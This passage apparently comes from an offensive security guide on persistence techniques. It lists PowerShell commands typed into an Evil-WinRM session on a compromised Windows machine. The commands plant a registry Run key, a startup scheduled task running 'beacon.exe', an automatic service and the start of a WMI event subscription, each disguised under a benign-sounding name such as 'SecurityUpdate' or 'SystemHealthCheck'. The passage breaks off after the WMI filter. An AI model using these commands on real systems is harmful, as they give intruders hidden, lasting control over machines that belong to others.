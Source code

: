 ### Persistence Techniques

#### Creating Multiple Persistence Methods

```powershell
# 1. Registry Run Key
*Evil-WinRM* PS C:\> New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityUpdate" -Value "C:\ProgramData\update.exe" -PropertyType String -Force

# 2. Scheduled Task
*Evil-WinRM* PS C:\> $action = New-ScheduledTaskAction -Execute "C:\ProgramData\beacon.exe"
*Evil-WinRM* PS C:\> $trigger = New-ScheduledTaskTrigger -AtStartup
*Evil-WinRM* PS C:\> Register-ScheduledTask -TaskName "SystemHealthCheck" -Action $action -Trigger $trigger -RunLevel Highest

# 3. Service Creation
*Evil-WinRM* PS C:\> New-Service -Name "WindowsHealthService" -BinaryPathName "C:\ProgramData\service.exe" -StartupType Automatic

# 4. WMI Event Subscription
*Evil-WinRM* PS C:\> $filterName = "ProcessFilter"
*Evil-WinRM* PS C:\> $consumerName = "ProcessConsumer"
*Evil-WinRM* PS C:\> $Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
*Evil-WinRM* PS C:\> $WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query}
```